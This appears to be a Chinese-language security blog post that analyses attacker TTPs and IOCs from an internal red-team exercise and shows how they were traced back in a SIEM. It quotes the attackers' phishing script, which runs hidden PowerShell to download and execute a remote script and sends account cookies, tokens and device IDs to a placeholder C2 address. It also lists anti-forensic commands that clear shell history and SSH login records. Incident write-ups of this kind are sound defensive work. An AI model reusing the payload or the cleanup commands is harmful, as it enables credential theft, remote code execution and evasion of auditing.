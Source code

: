 ```yaml
---
layout: post
title:  "简要分析一次真实对抗中的TTPs和IOCs"
date:   2022-01-23 10:28:28 +0800
categories: 安全运营
tags: 应急响应 攻防实战
---
```


最近在内部进行一场为期两周的攻防演练。这次对抗中，观察到蓝军的一些攻击手法，尝试学着ATT&CK描述APT组织的方式提取蓝队的技战术，更有效的检测和回溯攻击行为。

*本文写的比较随意，没有什么技术含量，仅做一个简单的记录，部分信息比较敏感打了重码，各位将就看。*

### 背景

演练开始后不久，蓝队已经成功攻击分支结构内网，由于该分支结构不是总部维护的IT系统，各安全策略与监控手段都存在不同程度缺失。经判断分支机构的内部网络已经完全沦陷，攻击队的驻点非常多。但因为保证业务正常，又不能完全断开该分支机构访问总部网络，因此只能进行艰苦的“阻击战”，防止攻击队对总部网络进一步攻击。

### 初战

![Snipaste_2022-01-21_14-47-10](https://raw.githubusercontent.com/chiww/chiww.github.io/master/assets/A-Simple-TTPs-IOCs/Snipaste_2022-01-21_14-47-10.png)

在分支机构沦陷后，蓝军对总部网络发起进攻。首先通过SSH爆破，拿到了边界主机shell后，进入总部内网，在内网中进行探测扫扫描、驻留活动。

由于爆破获得一定主机数量，蓝军在各机器基本执行相同的动作：首先使用`export HISTSIZE=0`关闭history记录，下载扫描器或者后门，执行扫描器或后门，确认进程正常启动后删除下载文件。另外，还会修改文件名，达到混淆藏匿目的。

![Snipaste_2022-01-21_15-17-02](https://raw.githubusercontent.com/chiww/chiww.github.io/master/assets/A-Simple-TTPs-IOCs/Snipaste_2022-01-21_15-17-02.png)

蓝军的动作非常快，内部机器沦陷了一部分。



### 再战

另一支蓝军走另外一条路，从办公终端入手，找到内部IM的0day漏洞，对全网下发了钓鱼脚本，脚本大致长这个样子的：

```
(()=>{r=require;r('child_process').exec('powershell -win hidden "IE`x(new-object net.webclient).downloadstring(\'http://<公网恶意执行PS文件URL>\')"');wf=window.fslinker;a=window.cookies.ACCOUNT;t=window.cookies.ACCTOKEN;dd=wf.getDeviceId();h=new XMLHttpRequest();u="http://<C2地址>/?a="+a+"\&t="+t+"\&d="+dd;h.open("GET", u);h.send();})();
```

该钓鱼攻击面广，基本全网都收到了，沦陷终端数量不断在增长，又因为后门程序是做过免杀的，终端杀软没有动静；最后靠的在终端EDR上做了powershell行为规则，发现`downloadstring`命令即告警，才有幸及时发现，并通知到用户处置。



### 技战术

#### TTPs

如果仅从蓝军执行日志来看，可以大致总结分析下蓝军的TTPs，例如可以有如下几点：

1. 使用`export HISTSIZE=0`命令关闭日志记录功能
2. 使用某个账号对C段主机进行ssh喷洒
3. 使用`rm ~/.ssh/known_hosts`命令删除登录历史 
4. 从C2下载内网扫描和后门程序，执行成功后删除原始文件
5. 在办公侧使用powershell中`net.webclient`实现无文件攻击  
6. 使用`ip.sb`试探主机是否出网

TTPs是攻击者的行为习惯，这个是很难去改变的。例如蓝军每获取一个主机资源会使用`HISTSIZE=0`机制关闭history日志记录功能、使用删除`known_hosts`方式删除SSH登录历史。这些行为习惯是贯穿在整个攻击过程中，可以根据这些行为特征来制定针对性规则。

#### IOCs

同时TTPs中也提供了一下IOC，例如`HISTSIZE=0`、`ip.sb`，可以SIEM中去回溯整个攻击行为。回溯过程是要仅可能还原蓝军攻击路径，要将蓝军攻击的一个点，扩展成一条线或者一个面，同时，也是为了防止因为单个检测设备检测缺失导致的检测遗漏。 

例如，可以从以下方式入手：

- 从`export HISTSIZE=0`检索
- 从C段SSH登录失败检索
- `ip.sb`中检索

根据这些IOC在SIEM中反查：

![](https://raw.githubusercontent.com/chiww/chiww.github.io/master/assets/A-Simple-TTPs-IOCs/Snipaste_2022-01-21_11-41-31-1642908102135.png)

根据`HITSIZE=0`反查的结果



![](https://raw.githubusercontent.com/chiww/chiww.github.io/master/assets/A-Simple-TTPs-IOCs/Snipaste_2022-01-21_11-49-46.png)

根据`ip.sb`反查的结果



![](https://raw.githubusercontent.com/chiww/chiww.github.io/master/assets/A-Simple-TTPs-IOCs/Snipaste_2022-01-21_13-49-08.png)

根据登录失败记录反查的结果



依据SIEM查到的一些结果，就可以大致可以梳理出整个攻击路径：

![Snipaste_2022-01-21_17-27-10](https://raw.githubusercontent.com/chiww/chiww.github.io/master/assets/A-Simple-TTPs-IOCs/Snipaste_2022-01-21_17-27-10.png)

当然这个路径可能只是攻击队的其中一条路径，这取决于SIEM中收录的日志丰富程度和日志信息的颗粒度。



### 后记

这篇文章没有什么技术含量，仅作为一个简单的记录，尝试去描述一个攻击行为的TTPs和IOCs，以及TTP和IOC在攻击回溯中的一些用法。

是否能够完整回溯整个攻击路径，关键还是靠以下几个方面：

1. 日志收录的覆盖度；尤其是主机类的日志，一旦有一个节点日志是缺失的，就有可能丢失一大片的攻击信息；
2. 日志收录的颗粒度；在攻防对抗中，攻击队一定会想法设法绕过安全检测设备，这种针对性的攻击仅仅依靠安全设备这种HASH特征的检测方式是不能够完全检测出来的。这时候需要更详细的原始信息，这个原始信息包括网络流量、主机命令执行、进程创建等。













